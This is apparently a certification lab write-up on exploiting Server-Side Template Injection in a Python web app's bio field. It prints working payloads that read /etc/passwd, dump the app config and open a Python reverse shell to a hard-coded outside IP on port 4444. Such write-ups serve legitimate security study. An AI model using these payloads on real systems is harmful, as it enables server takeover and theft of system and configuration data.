 ```yaml
---
title: Challenge 13:Reverse Shells Are Not for The Weak
date: 2024-05-15 05:05:00 +0800
categories: [Write-Up, CWAE]
tags: [Cert, Write-Up]     ## TAG names should always be lowercase
description: This is a detailed writeup created for challenges associated with the Certified Web AppSecurity Expert (CWAE) certification. 
---
```


## Challenge/Task

1. SSTI

**Proof-of-Concept (POC):**

Another injection type inside web application is Server-Side Template Injection (SSTI). SSTI is a type of security problem in websites or web applications. Imagine a website as a building made of many parts. One important part is called a "template," which is like a blueprint for how the website should look.

Now, sometimes, attackers can find a way to sneak their own instructions into these templates. It's a bit like someone sneaking a fake floor plan into a real building blueprint. When the website uses this fake plan, it could do things it's not supposed to, like showing secret information or even letting the attacker control parts of the website.

Usually, to test the SSTI we will insert {{}} syntax into these field or parameters. For example, enter {{ 7*7 }} into a bio field below:

![POC-otb](/img/cwae/rsa1.png){: w="400" h="400" }{: .normal }

Surprisingly, the 7*7 which is equal to 49 is reflected in the bio. That’s mean the parameter is vulnerable to SSTI.

How can attacker exploit this vulnerability? Inside {{}} syntax, attacker can put any command that will be executed by the server. First of all, we try to get the list of user by inserting below payload. It works

{% raw %}
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
{% endraw %}

![POC-otb](/img/cwae/rsa2.png){: w="400" h="400" }{: .normal }

Other sensitive info that we can retrieve is also the config by using payload below:
{% raw %}
{{config.items()}}
{% endraw %}

![POC-otb](/img/cwae/rsa3.png){: w="400" h="400" }{: .normal }

We will try to get a reverse shell from this vulnerability. Using below payload, we can get the reverse shell. But first, we have to setup our listener.

![POC-otb](/img/cwae/rsa4.png){: w="400" h="400" }{: .normal }

Then, we can send below payload to the bio input field. 
{% raw %}
{{''.__class__.__mro__[1].__subclasses__()[213](['python', '-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("143.198.205.200",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);']) }}
{% endraw %}

![POC-otb](/img/cwae/rsa5.png){: w="400" h="400" }{: .normal }

After we click “update” button, our listener is starting to get the connection from the server. We are now inside the victim’s server. To prove it, I run id and whoami command showing that it belongs to the victims. 

![POC-otb](/img/cwae/rsa6.png){: w="400" h="400" }{: .normal }